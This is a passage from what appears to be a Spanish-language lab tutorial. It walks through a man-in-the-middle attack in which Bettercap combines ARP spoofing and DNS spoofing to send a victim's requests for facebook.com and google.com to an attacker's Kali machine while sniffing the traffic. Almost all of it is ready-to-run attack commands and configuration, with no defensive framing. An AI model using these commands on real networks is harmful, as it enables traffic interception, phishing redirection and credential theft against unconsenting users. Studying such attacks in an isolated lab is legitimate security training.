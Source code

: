 
##### ✅ Paso 2: Configura el entorno de red

1. Verifica que Kali (atacante) y la víctima estén en la misma red:

```bash
ip a
```

Por ejemplo:

- Kali: `192.168.1.10`
- Víctima: `192.168.1.20`
- Gateway (router): `192.168.1.1`

Haz ping entre máquinas para verificar la conectividad:

```bash
ping 192.168.1.20
```

---

##### ✅ Paso 3: Crear archivo de suplantación DNS

Crea un archivo llamado `dnsspoof.txt` con el siguiente contenido:

```
facebook.com 192.168.1.10
google.com 192.168.1.10
```

> Aquí estás diciendo: cuando la víctima busque `facebook.com`, respóndele con `192.168.1.10` (la IP del atacante).

---

##### ✅ Paso 4: Iniciar ataque DNS Spoofing con Bettercap

Inicia Bettercap:

```bash
sudo bettercap -iface eth0
```

> Reemplaza `eth0` por la interfaz real si es diferente.

Dentro de la consola de Bettercap, escribe:

```bash
set dns.spoof.domains /ruta/completa/dnsspoof.txt
set dns.spoof.all true
dns.spoof on
set arp.spoof.targets 192.168.1.20   # IP de la víctima
arp.spoof on
net.sniff on
```

Con esto estás:

- Haciendo **ARP Spoofing** para posicionarte como intermediario.
- Suplantando las respuestas DNS.
- Redirigiendo las peticiones de ciertos dominios hacia tu máquina Kali.

---